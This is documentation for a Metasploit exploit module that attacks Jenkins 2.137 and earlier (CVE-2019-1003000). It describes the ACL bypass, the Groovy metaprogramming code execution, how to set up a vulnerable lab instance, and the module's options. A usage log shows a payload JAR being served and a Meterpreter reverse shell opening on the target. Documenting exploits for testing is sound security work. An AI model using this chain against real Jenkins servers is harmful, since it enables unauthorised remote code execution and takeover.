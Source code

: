 ## Introduction

This module exploits a vulnerability in Jenkins dynamic routing to
bypass the `Overall/Read` ACL and leverage Groovy metaprogramming to
download and execute a malicious JAR file.

When the `Java Dropper` target is selected, the original entry point
based on `classLoader.parseClass` is used, which requires the use of
Groovy metaprogramming to achieve RCE.

When the `Unix In-Memory` target is selected, a newer, higher-level,
and more universal entry point based on `GroovyShell.parse` is used.
This permits the use of in-memory arbitrary command execution.

The ACL bypass gadget is specific to Jenkins <= 2.137 and will not work
on later versions of Jenkins.

Tested against Jenkins 2.137 and Pipeline: Groovy Plugin 2.61.

## Setup

1. `git clone https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc`
2. `cd cve-2019-1003000-jenkins-rce-poc/sample-vuln`
3. Edit `run.sh` and change `2.152-alpine` to `2.137`
4. `./run.sh`

## Targets

```
Id  Name
--  ----
0   Unix In-Memory
1   Java Dropper
```

## Options

**RPORT**

Set this to the Jenkins port. The default is 8080.

**TARGETURI**

Set this to the Jenkins base path. The default is `/`.

**SRVPORT**

Set this to the port on which to serve the payload. Change it from 8080
to something like 8081 if you are testing Jenkins locally on port 8080.

This option is valid only for the `Java Dropper` target.

**ForceExploit**

Set this to `true` to override the `check` result during exploitation.

## Usage

```
msf5 exploit(multi/http/jenkins_metaprogramming) > run

[*] Started HTTPS reverse handler on https://192.168.1.2:8443
[*] Jenkins 2.137 detected
[+] Jenkins 2.137 is a supported target
[+] ACL bypass successful
[*] Using URL: http://0.0.0.0:8081/
[*] Local IP: http://192.168.1.2:8081/
[*] Configuring Java Dropper target
[*] Sending Jenkins and Groovy go-go-gadgets
[*] HEAD /CarisaChristiansen/Rank/3.3.5/Rank-3.3.5.pom requested
[-] Sending 404
[*] HEAD /CarisaChristiansen/Rank/3.3.5/Rank-3.3.5.jar requested
[+] Sending 200
[*] GET /CarisaChristiansen/Rank/3.3.5/Rank-3.3.5.jar requested
[+] Sending payload JAR
[*] https://192.168.1.2:8443 handling request from 192.168.1.2; (UUID: qlrpxu6t) Staging java payload (54399 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.2:8443 -> 192.168.1.2:58688) at 2019-03-15 18:57:24 -0500
[*] Server stopped.
[!] This exploit may require manual cleanup of '$HOME/.groovy/grapes/CarisaChristiansen' on the target

meterpreter > getuid
Server username: jenkins
meterpreter > sysinfo
Computer    : 6f21b8da2915
OS          : Linux 4.9.93-linuxkit-aufs (amd64)
Meterpreter : java/linux
meterpreter >
```
